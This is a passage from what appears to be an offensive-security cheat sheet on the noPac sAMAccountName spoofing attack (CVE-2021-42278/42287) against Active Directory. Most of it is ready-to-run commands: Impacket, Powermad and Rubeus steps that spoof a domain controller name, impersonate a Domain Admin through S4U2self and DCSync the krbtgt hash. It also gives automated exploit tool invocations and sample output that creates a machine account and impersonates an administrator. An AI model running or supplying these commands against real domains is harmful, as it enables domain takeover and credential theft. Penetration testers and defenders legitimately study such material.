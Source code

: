     powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose
    ```
3. Request a TGT for the controlled machine account
    ```ps1
    impacket@linux> getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

    cmd@windows> Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap
    ```
4. Reset the controlled machine account sAMAccountName to its old value 
    ```ps1
    impacket@linux> renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

    powermad@windows> Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose
    ```
5. (CVE-2021-42287) Request a service ticket with `S4U2self` by presenting the TGT obtained before
    ```ps1
    # https://github.com/SecureAuthCorp/impacket/pull/1202
    impacket@linux> KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

    cmd@windows> Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]
    ```
6. DCSync: `KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'`

Automated exploitation:

* [cube0x0/noPac](https://github.com/cube0x0/noPac) - Windows
    ```powershell
    noPac.exe scan -domain htb.local -user user -pass 'password123'
    noPac.exe -domain htb.local -user domain_user -pass 'Password123!' /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
    noPac.exe -domain htb.local -user domain_user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator
    ```
* [Ridter/noPac](https://github.com/Ridter/noPac) - Linux
  ```ps1
  python noPac.py 'domain.local/user' -hashes ':31d6cfe0d16ae931b73c59d7e0c089c0' -dc-ip 10.10.10.10 -use-ldap -dump
  ```
* [WazeHell/sam-the-admin](https://github.com/WazeHell/sam-the-admin)
    ```ps1
    $ python3 sam_the_admin.py "domain/user:password" -dc-ip 10.10.10.10 -shell
    [*] Selected Target dc.caltech.white                                              
    [*] Total Domain Admins 11                                                        
    [*] will try to impersonat gaylene.dreddy                                         
    [*] Current ms-DS-MachineAccountQuota = 10                                        
    [*] Adding Computer Account "SAMTHEADMIN-11$"                                     
    [*] MachineAccount "SAMTHEADMIN-11$" password = EhFMT%mzmACL                      
    [*] Successfully added machine account SAMTHEADMIN-11$ with password EhFMT%mzmACL.
    [*] SAMTHEADMIN-11$ object = CN=SAMTHEADMIN-11,CN=Computers,DC=caltech,DC=white   
    [*] SAMTHEADMIN-11$ sAMAccountName == dc                                          
    [*] Saving ticket in dc.ccache                                                    
    [*] Resting the machine account to SAMTHEADMIN-11$                                
    [*] Restored SAMTHEADMIN-11$ sAMAccountName to original value                     
    [*] Using TGT from cache                                                          
    [*] Impersonating gaylene.dreddy                                                  
    [*]     Requesting S4U2self                                                       